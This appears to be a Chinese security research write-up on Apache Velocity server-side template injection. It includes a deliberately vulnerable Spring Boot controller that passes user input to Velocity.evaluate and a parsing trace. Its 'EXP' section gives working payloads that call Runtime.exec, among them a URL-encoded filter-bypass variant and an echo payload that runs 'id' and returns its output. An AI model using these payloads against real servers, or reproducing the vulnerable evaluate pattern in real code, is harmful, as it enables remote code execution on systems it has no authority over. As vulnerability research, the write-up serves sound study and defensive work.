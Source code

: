 # Velocity

> 官网: 
>
> 1.https://velocity.apache.org/engine/devel/user-guide.html(模板语法)
>
> 2.https://velocity.apache.org/engine/devel/developer-guide.html(java使用)
>
> 3.https://iwconnect.com/apache-velocity-server-side-template-injection/(一个比较详细的研究)

## 0x01 环境准备

> springboot 从1.5版本之后不再支持Velocity，所以我们使用的是`1.4.6.RELEASE`.

pom.xml

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>Velocity</artifactId>
    <version>1.0-SNAPSHOT</version>

    <parent>
        <groupId>org.springframework.boot</groupId>
        <artifactId>spring-boot-starter-parent</artifactId>
        <version>1.4.6.RELEASE</version>
    </parent>
    <properties>
        <maven.compiler.source>8</maven.compiler.source>
        <maven.compiler.target>8</maven.compiler.target>
    </properties>
    <dependencies>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-web</artifactId>
        </dependency>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-velocity</artifactId>
        </dependency>
    </dependencies>

</project>
```

Controller

```java
@RequestMapping("/velocity")
    public void velocity(String template) {
        //Initialize Velocity
        Velocity.init();
        //Create a Context object
        VelocityContext context = new VelocityContext();
        //Add your data objects to the Context.
        context.put("author", "Elliot A.");
        context.put("address", "217 E Broadway");
        context.put("phone", "555-1337");
        //get template
        //Template template1 = null;
        //template1 = Velocity.getTemplate("hello.html");
        StringWriter swOut = new StringWriter();
        //'Merge' the template and your data to produce the ouput.
        Velocity.evaluate(context, swOut, "test", template);
    }
```

## 0x02 velocity模板解析过程

```java
render:342, SimpleNode (org.apache.velocity.runtime.parser.node)
render:1378, RuntimeInstance (org.apache.velocity.runtime)
evaluate:1314, RuntimeInstance (org.apache.velocity.runtime)
evaluate:1265, RuntimeInstance (org.apache.velocity.runtime)
evaluate:180, Velocity (org.apache.velocity.app)
velocity:41, MainController (com.dem0.Application.controller)
```

总的来说就是，`RuntimeInstance#parse`去解析，把输入的`template`通过解析成不同的`SimpleNode`,最后调用`render`来执行处理。

## 0x03 velocity使用

> 参考:https://velocity.apache.org/engine/devel/vtl-reference.html

**$** [ **!** ] [ **{** ] *identifier* [ [ **|** *alternate value* ] **}** ]

> 就问一句:像不像log4j，解析方式差不多

 **#** [ **{** ] **set** [ **}** ] **(** *$ref* **=** [ **"**, **'** ] *arg* [ **"**, **'** ] )

> 赋值
>
> include(引入，但是不会解析)
>

**#** [ **{** ] **parse** [ **}** ] **(** *arg* **)**

> parse(Renders a local template that is parsed by Velocity)
>
> - String: `#parse( "lecorbusier.vm" )`
> - Variable: `#parse( $foo )`
>
> See *directive.parse.max_depth* in `velocity.properties` to change from parse depth.

**#** [ **{** ] **evaluate** [ **}** ] **(** *arg* **)**

> 感觉和上面差不多?

- 总结

  - 不难发现这个玩意有一点点php的味道在里面，比如屏蔽关键字啥的可以绕过

  ```
  %23set(%24e%3D%22Runtime%22)%0A%24%7Be.getClass().forName(%22java.lang.%24e%22).getMethod(%22getRuntime%22%2Cnull).invoke(null%2Cnull).exec(%22calc%22)%7D
  ```
    - 因为初始化的`context`,没有内部暴露的对象，所以可玩性极低。

​    

## 0x04 EXP

```
#set($e="e")
#set($a=e.getClass().forName("java.lang.Runtime"))
${.Runtime}.invoke(null,null).exec("calc")}
```



```java
#set($e="e")
${e.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("calc")}
${"".getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("calc")}
```

这个可以很简单的理解了，`"".getClass()`没有调试的必要。

```java
回显
#set($x='') #set($rt=$x.class.forName('java.lang.Runtime'))
#set($chr=$x.class.forName('java.lang.Character')) 
#set($str=$x.class.forName('java.lang.String')) 
#set($ex=$rt.getRuntime().exec('id')) $ex.waitFor() 
#set($out=$ex.getInputStream()) 
#foreach($i in [1..$out.available()])$str.valueOf($chr.toChars($out.read()))
#end
```

实际影响

> `CVE-2019-3396`.就是直接加载远程文件+SSTI就可以RCE.
>
> `Apache solr Velocity `:https://xz.aliyun.com/t/7466#toc-8

## 0x05 up!

![image-20220604210423940](https://img.dem0dem0.top/images/image-20220604210423940.png)

​	看到这个的第一反应就是`TemplatesImpl`和`getOutputProperties`。